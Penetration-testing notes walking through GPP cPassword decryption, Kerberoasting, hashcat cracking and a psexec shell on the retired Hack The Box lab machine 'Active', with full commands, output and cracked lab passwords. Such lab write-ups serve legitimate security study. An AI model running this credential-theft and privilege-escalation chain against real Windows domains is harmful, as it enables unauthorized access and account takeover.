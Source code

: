 # GPP / cPassword Attacks Overview - MS14-025

- GPP will keep passwords in an XML file
- Works with smb
- If we find a 334 open we can try to login anonymously
  *Example from HTB - Active - Retired Machine*
- Tips: `prompt off` (will not prompt when dl file) and `recurse on` (will list everything)
    ```
    ┌──(kali㉿kali)-[~]
    └─$ smbclient \\\\10.10.10.100\\Replication
    Enter WORKGROUP\kali's password: 
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      active.htb                          D        0  Sat Jul 21 06:37:44 2018

                    5217023 blocks of size 4096. 260455 blocks available
    smb: \> prompt off
    smb: \> 
    ```
- We can get all the file using `mget *`
- We are interested in the group.xml file which has been downloaded in `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/`  
  ![](../.res/groupsxml.png)
- We can just copy cpassword and crackit using gpp-decrypt: ` gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
  And we get the password: `GPPstillStandingStrong2k18`

## HTB - Active - privesc

- The password obtain with gpp only gave us user. To root the machine we use kerberoasting again:
  ```
  ┌──(kali㉿kali)-[~]
  └─$ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40  2022-02-11 16:21:53 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$50b[STRIPPED]1
  ```

- We can then crack the password with hashcat

  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O
  [STRIPPED]
  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~4[STRIPPED]1:Ticketmaster1968
  ```
- And finally get shell using psexec.py (Impacket)
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100  
  ```

## GPP - Resources

{% embed url="https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/" %} Group Policy Pwnage {% endembed %}
